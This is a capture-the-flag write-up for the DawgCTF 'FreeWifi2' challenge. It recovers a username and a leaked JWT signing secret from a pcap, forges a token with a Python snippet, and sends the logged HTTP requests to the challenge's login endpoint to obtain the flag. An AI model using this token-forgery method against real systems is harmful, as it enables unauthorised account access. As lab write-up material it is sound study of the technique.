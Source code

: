 ## FreeWifi2

There is a pcap given.
On TCP Stream 48, we can find the username: *true.grit@umbccd.io*
In addition, there are three interesting endpoints in the pcap. 
You can go over all the tcp streams and eventually, you find the below details:
- /jwtlogin
- /forgotpassword.html
- /staff.html (this got a flag which is the solution for FreeWifi1.)

Trying to login with username:password as true.grit@umbccd.io:true.grit@umbccd.io gives the following token in the response:
*< JWT 'identity'=31337 >*


**HTTP Request:**

```
POST /staff.html HTTP/1.1
Host: freewifi.ctf.umbccd.io
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:74.0) Gecko/20100101 Firefox/74.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 178
Origin: https://freewifi.ctf.umbccd.io
Connection: close
Referer: https://freewifi.ctf.umbccd.io/staff.html
Cookie: session=eyJjc3JmX3Rva2VuIjoiY2MwZjFmODY4ZWRiOTgzNTUxYzBhM2FiMzFmNDExODJiY2ViYTA5MyJ9.XpGbsA.Afj_d2U1FAfOy_LNDW-ucVcxN94; WifiKey nonce=MjAyMC0wNC0xMSAxMDozOA==; WifiKey alg=SHA1
Upgrade-Insecure-Requests: 1
csrf_token=ImNjMGYxZjg2OGVkYjk4MzU1MWMwYTNhYjMxZjQxMTgyYmNlYmEwOTMi.XpGeNA.1eSf_9aW6Z1u9djuBDm_N9KhO8M&username=true.grit%40umbccd.io&password=true.grit%40umbccd.io&submit=Submit
```

**HTTP Response:**
```
HTTP/1.1 200 OK
Server: nginx/1.14.0 (Ubuntu)
Date: Sat, 11 Apr 2020 10:39:07 GMT
Content-Type: text/html; charset=utf-8
Connection: close
Set-Cookie: WifiKey nonce=MjAyMC0wNC0xMSAxMDozOQ==; Path=/
Set-Cookie: WifiKey alg=SHA1; Path=/
Set-Cookie: JWT 'identity'=31337; Path=/
Vary: Cookie
Content-Length: 2666
```

### Ideas:
I think the goal is to login with /jwtlogin
We have identity from the above request. In addition, there is additional information from the pcap about a secret:
```
Set-Cookie: JWT 'secret'="dawgCTF?heckin#bamboozle"; Path=/
```

Using, this two values, I tried creating a JWT token using python. 

```Python 
import jwt
print jwt.encode({'identity':31337,'exp':1614291780,'iat':1475878357,'nbf':1475878357},'dawgCTF?heckin#bamboozle',algorithm='HS256')
eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpYXQiOjE0NzU4NzgzNTcsImV4cCI6MTYxNDI5MTc4MCwiaWRlbnRpdHkiOjMxMzM3LCJuYmYiOjE0NzU4NzgzNTd9.ij7mhvj4dBoqFP91aItAp-TMHkaCbOq9tjyV43dP8AA
```

Below is the request that gave me the flag: 

**HTTP Request**
```
GET /jwtlogin HTTP/1.1
Host: freewifi.ctf.umbccd.io
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:60.0) Gecko/20100101 Firefox/60.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Authorization: JWT eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpYXQiOjE0NzU4NzgzNTcsImV4cCI6MTYxNDI5MTc4MCwiaWRlbnRpdHkiOjMxMzM3LCJuYmYiOjE0NzU4NzgzNTd9.ij7mhvj4dBoqFP91aItAp-TMHkaCbOq9tjyV43dP8AA
Connection: keep-alive
Upgrade-Insecure-Requests: 1
Content-Length: 2
```

You have the flag in the reponse. 
>DawgCTF{y0u_d0wn_w!t#_JWT?}
